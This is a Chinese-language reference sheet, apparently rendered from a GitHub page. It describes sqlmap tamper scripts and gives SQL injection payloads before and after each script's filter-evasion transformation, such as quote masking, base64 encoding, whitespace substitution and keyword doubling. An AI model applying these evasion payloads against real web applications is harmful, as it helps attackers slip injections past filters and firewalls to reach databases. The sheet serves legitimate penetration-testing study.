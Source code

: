 # SQLMAP--Tamper

`--identify-waf`

` `



### 0x02 常用tamper脚本

#### **apostrophemask.py**

适用数据库：ALL 
作用：将引号替换为utf-8，用于过滤单引号 
使用脚本前：`tamper("1 AND '1'='1")` 
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### **base64encode.py**

适用数据库：ALL 
作用：替换为base64编码 
使用脚本前：`tamper("1' AND SLEEP(5)#")` 
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

#### **multiplespaces.py**

适用数据库：ALL 
作用：围绕sql关键字添加多个空格 
使用脚本前：`tamper('1 UNION SELECT foobar')` 
使用脚本后：`1 UNION SELECT foobar`

#### **space2plus.py**

适用数据库：ALL 
作用：用加号替换空格 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT+id+FROM+users`

#### **nonrecursivereplacement.py**

适用数据库：ALL 
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空） 
使用脚本前：`tamper('1 UNION SELECT 2--')` 
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

#### **space2randomblank.py**

适用数据库：ALL 
作用：将空格替换为其他有效字符 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT%0Did%0DFROM%0Ausers`

#### **unionalltounion.py**

适用数据库：ALL 
作用：将`union allselect` 替换为`unionselect` 
使用脚本前：`tamper('-1 UNION ALL SELECT')` 
使用脚本后：`-1 UNION SELECT`
